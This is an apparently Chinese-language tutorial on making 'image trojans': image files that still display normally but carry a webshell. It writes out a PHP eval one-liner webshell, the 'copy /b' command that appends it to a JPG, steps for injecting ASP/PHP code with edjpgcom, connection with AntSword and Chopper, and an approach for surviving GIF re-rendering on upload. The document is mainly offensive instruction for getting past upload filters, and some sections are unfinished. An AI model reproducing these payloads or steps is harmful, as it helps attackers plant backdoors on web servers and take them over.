# 图片木马制作大法

## 0x01什么是图片木马？

图片木马在网络上没有统一的定义，在这里我给出自己的定义。图片木马是一张能正常显示又包含恶意代码（比如一句话木马）的图片文件。

根据定义我们知道图片木马两个条件：

- 图片能正常显示
- 包含能执行的而已代码

总体思路：将恶意代码写在图片文件中非图片数据区，防止写入导致图片损坏。

常规的图片格式有gif,png,jpg格式

## 0x02将恶意代码写在图片尾部

适合格式：任何图片格式

### 方法一：copy法

准备一张正常图片（a.jpg）,新建一个文件内容写入以下代码（b.php）

```
<?php @eval($_POST['cmd']);?>
```

使用以下命令生成图片木马muma.jpg

```
copy /b a.jpg + b.asp/a = muma.jpg
```


使用以下命令生成图片木马muma.jpg

```
copy /b a.jpg + b.php/a = muma.jpg
```


使用winhex工具进行查看





asp图片马  本地利用解析漏洞测试(03 服务器)asp图片马和php图片马





php图片马测试如下




### 方法二：二进制编辑器法(未完待续)

使用二进制编辑工具（比如winhex,utrl editor等等）直接写恶意代码到文件尾部。
这里我使用winhex给大家演示

### 方法三：edjpgcom

将要注入恶意代码的图片拖到edjpgcom.exe上，在edjpgcom弹出的输入框中输入一句话。
插入asp代码




使用蚁剑进行测试	



插入php代码


测试：

​	ctrl+f 搜索是否成功插入图片马




也可以使用uedit64工具打开,ctrl+f 搜索是否成功插入图片马


​    

​	将图片后缀改为php 测试


 使用蚁剑连接


​	使用菜刀访问,没问题


## 0x04渲染绕过

适合格式：gif
现在的网站对于图片上传的防范越来越严，经常对上传的图片二次渲染。导致我们的通过方法思路一和思路二的方法注入的而已代码，在渲染之后被“清洗”掉了！这时候我们就得思考如何去绕过。
绕过思路：对比上传前和上传后的图片的差异，找到相同数据同时又是非图片数据区的地方，在在，此处写入恶意代码。

